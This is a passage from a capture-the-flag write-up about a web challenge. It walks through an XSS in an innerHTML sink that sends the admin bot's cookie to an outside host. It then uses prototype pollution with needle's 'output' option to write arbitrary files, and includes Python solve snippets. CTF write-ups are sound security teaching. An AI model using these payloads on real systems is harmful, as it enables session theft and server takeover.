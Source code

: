 Yay, we can now simply register ourselves as an admin and login.
## xss (useless)

Since we have a `bot.js` I believe this has something to do with XSS.

The first attack vector I found was this, `innerHTML`.

```js [challenge/views/showBounty.html]
document.getElementById("description").innerHTML =
	bounty.description ||
	"<p>No details available for this bounty.</p>";
```

```python [solve.py]
print(s.put(f"{target}/api/bounties/{b['id']}", json={
    "description": "<img src=1 onerror='location.href=\"https://1337.yun.ng/?\"+document.cookie'/>"
}).text)
stop, wait = webhook(1337)
print(s.get(f"{target}/api/report/{b['id']}").text)
data = wait()
stop()
admin_token = data['auth']
```

...and it worked.

But I already have a admin token, so what's the point?

Maybe I had an unintended solution?
## prototype pollution

Spent a lot of time trying to read the file `/flag.txt` somehow, I've tried redirects to `file:///flag.txt` but non worked. `needle` itself seems uncapable of reading local files, so even if an redirect worked needle won't give me any flags.

While looking around I found that the `mergedeep` function is again, susceptible to prototype pollution.

The payload is simple. `{"__proto__": {"polluted": "vulnerable"}}`.

However after I pollute the prototype server will stop functioning (unable to run previous steps of register + login etc).

Then, I realized this option in `needle`.

> `output` : Dump response output to file

...that means arbitrary file writes!

### payload

```python [solve.py]
print(s.put(f"{target}/api/bounties/{b['id']}", json={
    "__proto__": {"output": "/app/views/index.html"},
    "description": "hello"
}).text)
```
